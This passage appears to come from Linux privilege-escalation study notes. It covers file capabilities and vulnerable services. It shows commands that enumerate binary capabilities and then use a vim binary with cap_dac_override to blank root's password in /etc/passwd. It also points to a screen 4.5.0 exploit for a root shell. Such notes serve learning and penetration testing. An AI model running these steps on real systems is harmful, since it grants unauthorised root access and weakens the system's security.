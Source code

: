    * enumerating:

        ```sh
        find /usr/bin /usr/sbin /usr/local/bin /usr/local/sbin -type f -exec getcap {} \;
        # find capabilities set for binaries
        ```
    
    * exploiting:

        ```sh
        getcap /usr/bin/vim.basic
        # suppose this has cap_dac_override set

        cat /etc/passwd | head -n1
        # root:x:0:0:root:/root:/bin/bash

        /usr/bin/vim.basic /etc/passwd
        # we can modify a system file using this capability

        # we can also make the changes in non-interactive mode
        echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

        cat /etc/passwd | head -n1
        # root::0:0:root:/root:/bin/bash
        # the 'x' is removed, so we can just 'su' to switch to root without password
        ```

## Service-based Privilege Escalation

* Vulnerable services:

    ```sh
    # check for services and their versions

    screen -v
    # for example, screen 4.5.0 has a privesc vuln

    ./screen_exploit.sh
    # https://www.exploit-db.com/exploits/41154
    # gives root shell
    ```
